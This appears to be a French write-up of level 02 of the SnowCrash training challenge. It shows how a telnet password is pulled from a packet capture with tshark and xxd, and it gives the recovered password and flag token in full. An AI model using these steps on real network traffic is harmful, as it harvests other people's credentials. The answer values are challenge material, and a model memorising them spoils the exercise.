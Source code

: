 # LEVEL 02

### Reconnaissance

Une fois connecter la l'utilisateur level02, on peux voir un fichier de capture reseau (pcap) nommer level02.pcap.

### Exploitation

On télécharge le fichier pour l'analyser:
```
$ scp level02.pcap yoginet@192.168.56.1:/home/yoginet/Documents/101/snowcrash/level02.pcap
```

Maintenant, 2 choix s'offre a nous:

- **la version graphique**
```
$ wireshark level02.pcap
```

- **la version en ligne de commande** (celle que nous allons utilisé):
```
$ tshark -r level02.pcap -T fields -e data
// permet de nous lister l'ensemble des paquets
1   0.000000 59.233.235.218 → 59.233.235.223 TCP 74 39247 → 12121 [SYN] Seq=0 Win=14600 Len=0 MSS=1460 SACK_PERM=1 TSval=18592800 TSecr=0 WS=128
2   0.000128 59.233.235.223 → 59.233.235.218 TCP 74 12121 → 39247 [SYN, ACK] Seq=0 Ack=1 Win=14480 Len=0 MSS=1460 SACK_PERM=1 TSval=46280417 TSecr=18592800 WS=32
3   0.000390 59.233.235.218 → 59.233.235.223 TCP 66 39247 → 12121 [ACK] Seq=1 Ack=1 Win=14720 Len=0 TSval=18592800 TSecr=46280417
[...]
```

Pour exporté les données brute en hexa:
```
$ tshark -r level02.pcap -T fields -e data
```

Meme chose mais converti:
```
$ tshark -r level02.pcap -T fields -e data |xxd -r -p
[...]
Linux 2.6.38-8-generic-pae (::ffff:10.1.1.2) (pts/10)
[...]
```

On peux voir:
```
wwwbugs login: lleevveellXX
Password: ft_wandrNDRelL0L
```
le password tel quel ne fonctionne pas, mais en faisant quelques essaie, on arrive a trouvé le bon:

```
$ su flag02
Password: ft_waNDReL0L
$ getflag
Check flag.Here is your token : kooda2puivaav1idi4f57q8iq
```
